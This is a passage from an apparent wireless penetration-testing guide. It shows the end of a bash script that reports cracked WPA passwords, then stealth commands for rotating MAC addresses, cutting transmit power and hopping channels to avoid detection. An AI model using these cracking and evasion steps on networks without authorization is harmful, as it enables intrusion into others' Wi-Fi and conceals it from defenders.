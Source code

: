 ```bash
        
    done < "$RESULTS_DIR/wpa-targets.txt"
    
    log "Assessment completed. Results saved in $RESULTS_DIR"
    
    if [[ -f "$RESULTS_DIR/cracked-passwords.csv" ]]; then
        log "Successfully cracked passwords:"
        cat "$RESULTS_DIR/cracked-passwords.csv"
    else
        log "No passwords were cracked during this assessment"
    fi
}

# Execute main function
main "$@"
```

### Stealth and Evasion Techniques

#### MAC Address Randomization

```bash
# Change MAC address before starting
sudo macchanger -r wlan0

# Use specific vendor MAC
sudo macchanger --mac=aa:bb:cc:dd:ee:ff wlan0

# Restore original MAC
sudo macchanger -p wlan0

# Automated MAC rotation
#!/bin/bash
while true; do
    sudo macchanger -r wlan0mon
    sleep 300  # Change every 5 minutes
done
```

#### Power and Channel Management

```bash
# Reduce transmission power to avoid detection
sudo iwconfig wlan0mon txpower 5

# Channel hopping to avoid pattern detection
#!/bin/bash
CHANNELS=(1 6 11 2 7 3 8 4 9 5 10)
while true; do
    for channel in "${CHANNELS[@]}"; do
        iwconfig wlan0mon channel $channel
        sleep 30
    done
done
```
